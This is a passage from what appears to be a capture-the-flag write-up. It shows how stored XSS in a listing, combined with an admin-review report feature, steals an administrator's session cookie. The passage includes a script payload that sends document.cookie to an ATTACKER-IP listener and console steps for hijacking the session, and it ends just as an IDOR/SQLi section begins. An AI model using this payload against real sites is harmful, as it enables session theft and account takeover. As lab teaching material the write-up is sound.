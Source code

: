 ![session-cookie](document-cookie.png)

The plan is as follows:
1. Open a **python http server**:

    ```bash
    python -m http.server 12345
    ```

2. Create a new listing with code that will **steal another user's cookie and sent it back to us**.

    ```javascript
    <script>fetch("http://ATTACKER-IP:12345/"+document.cookie)</script>
    ```

    ![cookie-stealer](cookie-stealer.png){: .normal width="70%"}

3. Now, we need a way to **"force" an admin to interact with our listing**. That is because we want the code to be executed on the admin's browser, and not ours. This is where the reporting hint comes handy. We can create a new listing, report it, and then an admin should come and review it.

    ![report-to-admin](report-to-admin.jpg){: .normal width="50%"}

4. When we click *Report*, we get a message *From System* saying among others: "*One of our admins will evaluate...*". We should have received our session cookie on the python server by now. After a few seconds, we refresh the page, and we have a new message that our post has been reviewed. Alongside that, we also got the admin's cookie!

    ![admin-cookie](admin-cookie.png)

    > Don't get confused because the port is showing as `8888` instead of `12345`. I just had to restart and ended up using another port!

5. All we have to do now, is swapping our cookie with admin's cookie. We can do that via the brower's console:

    ```javascript
    // we need to allow pasting, so we can paste our cookie
    allow pasting
    // set cookie with the value of the admin's cookie
    document.cookie="token=ADMIN_COOKIE"
    ```

    ![cookie-swap](cookie-swap.png)

6. Once we refresh the page, the **Administration panel** appears, which includes our first 🚩🍻!

    ![admin-panel](admin-panel.jpg){: .normal}

### 3.2 IDOR & SQLi

When clicking on the different users, the address bar changes as follows: `/admin?user=`. So, we have the parameter `?user` to play with, which we can check if it is susceptible to an **IDOR vulnerability**.
